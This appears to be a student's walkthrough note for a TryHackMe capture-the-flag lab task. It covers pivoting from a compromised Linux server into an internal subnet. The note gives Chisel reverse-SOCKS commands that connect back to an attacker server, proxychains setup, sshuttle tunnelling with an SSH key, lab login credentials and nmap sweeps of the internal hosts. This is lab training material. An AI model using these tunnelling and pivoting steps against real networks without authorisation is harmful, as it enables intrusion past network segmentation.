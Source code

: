 Now that you have gained root access to L-SRV01, you need to identify where to go next. You know there are no other external machines in scope, so you decide to move into the internal network. To gain access to the internal subnet, you need to perform what is known as pivoting.

In a well-maintained network, often referred to as a "Segmented Network," there are specific rules in place preventing users from accessing certain parts of the Internal LAN (ex. The Workstation Subnet should not be able to access the Server Subnet). We will need to "pivot" from an already compromised server using a SOCKs server or other means like port forwarding to access different network resources.  

There are several tools outlined below that can help us in pivoting.  

- sshuttle
- Chisel
- Ligolo
- Metasploit autoroute

In this task, we will be focusing on both Chisel and sshuttle, each offering unique ways to approach pivoting.  

## Chisel

The first tool that we will be looking at is Chisel. From the Chisel GitHub, *"Chisel is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH. Single executable, including both client and server. Written in Go (Golang). Chisel is mainly useful for passing through firewalls, though it can also be used to provide a secure endpoint into your network."*  

From the Chisel GitHub, below is an overview of chisel architecture.

![[Task 23 - Digging a tunnel to nowhere-20240926150119258.webp]]

To begin using Chisel, we must first download the tool. If you utilize the stable release or docker, you will not need to download any dependencies. If you compile from source, you will need to install a few dependencies outlined on their GitHub. There are three common ways of obtaining the tool, outlined below.  

- Stable release: [](https://github.com/jpillora/chisel/releases)[https://github.com/jpillora/chisel/releases](https://github.com/jpillora/chisel/releases)
- Docker: `docker run --rm -it jpillora/chisel --help`
- Source: `go get -v [github.com/jpillora/chisel](<http://github.com/jpillora/chisel>)`

To set up the Chisel server on a Windows machine, you will need to get the Windows binary and vice versa.  

To create a SOCKs server with Chisel, you will only need two commands ran on the target and the attacking machine, outlined below.  

On the attacking machine: `./chisel server -p 8000 --reverse`

On the target machine: `./chisel client <SERVER IP>:8000 R:socks`

Now that we have a SOCKs server set up, we need to interpret and manage these connections. This is where proxychains come in. Proxychains allows us to connect to the SOCKs server and route traffic through the proxy in the command line. To add the SOCKs server to proxychains, you will need to edit `/etc/proxychains.conf`. You can see an example configuration below.

![[Task 23 - Digging a tunnel to nowhere-20240926150205470.webp]]

You will need to add the following line to the configuration file: `socks5 127.0.0.1 1080`

To use the proxy, you will need to prepend any commands you want to route through the proxy with proxychains. An example usage can be found below.  

Example usage: `proxychains curl http://<IP>`



## sshuttle
The second tool we will be looking at is sshuttle. Sshuttle is unique in its approaches to pivoting because all of its techniques are done remotely from the attacking machine and do not require the configuration of proxychains. However, a few of the disadvantages of sshuttle are that <u>it will only work if there is an ssh server running on the machine</u>, and it <u>will not work on Windows hosts</u>. You can download sshuttle from GitHub, [https://github.com/sshuttle/sshuttle](https://github.com/sshuttle/sshuttle)  

Using sshuttle is relatively easy and only requires one command. For sshuttle to work, you only need to specify one parameter, -r . With this parameter, you will specify the user and target like you would for a standard ssh connection. You will also need to specify the CIDR range of the network; this does not require a parameter. Find an example of syntax below.  

Syntax: `sshuttle -r USER@MACHINE_IP 0.0.0.0/0`

For more information about sshuttle and how to use it, check out the documentation, [https://sshuttle.readthedocs.io/en/stable/overview.html](https://sshuttle.readthedocs.io/en/stable/overview.html).


---

# Your job

Before you can pivot, you do need to know where you are in the network and where you are trying to get to.
Creating a Network Diagram is the best way to do it.

![[Diagram.svg]]

The above diagram shows the route: 
- You went via a docker container and back to the host that had the 4 websites right back at the start. 
- Then you got root on that via docker.
- You added a SSH key so you now have direct access to that box via SSH as either the **root** user or the **linux-admin** user with the cracked password.
- Looking at y your THM dashboard, two new IP have appeared, which are 10.200.X.30 and 10.200.X.31. 
- You cannot ping this from your host, so instead you will have to pivot through the webserver (L-SRV01) host to gain access to it.

## Pivoting with chisel

- SSH to L-SRV01 with the following credentials:
	User: `linux_admin`
	Password: `linuxrulez`
	`ssh linux_admin@10.200.X.33`
or
- [[Task 21 - From the Shadows#SSH to the victim machine with a key]]

- On the attacking machine: `./chisel server -p 8000 --reverse`

- On the target machine: `./chisel client <SERVER IP>:8000 R:socks`

## Pivoting with sshuttle


> [!Note]
The command requires a few bits of information, these include: 
The username and address of your pivot target.
A keyfile if you are using a key pair (which you are).
The subnet you want to gain access too and you need to remove the IP you are connecting too, otherwise everything gets very confused. This translates to:
`sshuttle -r user@address --ssh-cmd "ssh -i KEYFILE" SUBNET -x <IP>`


- Run on the attacking machine the following command:
	`sshuttle -r root@admin.holo.live --ssh-cmd "ssh -i /home/kali/.ssh/id_rsa" 10.200.X.0/24 -x 10.200.X.33`
	![[Task 23 - Digging a tunnel to nowhere-20241008134113133.webp]]

- On another terminal connect via SSH.
	`ssh root@admin.holo.live -i /home/kali/.ssh/id_rsa` 

- Run nmap against the target 10.200.X.31.
	root@ip-10-200-95-33:~# `nmap 10.200.95.31 -Pn`
	
	![[Task 23 - Digging a tunnel to nowhere-20241008140800233.webp]]

- Look at the internal network.
	root@ip-10-200-95-33:~# `nmap 10.200.95.0/24 -Pn`
	
	![[Task 23 - Digging a tunnel to nowhere-20241008141821503.webp]]
	
You've found the following 5 hosts available:

	- 10.200.95.30
    - 10.200.95.31
    - 10.200.95.32
    - 10.200.95.33
    - 10.200.95.35


**Next step:** [[Task 24 - Command your Foes and Control your Friends]]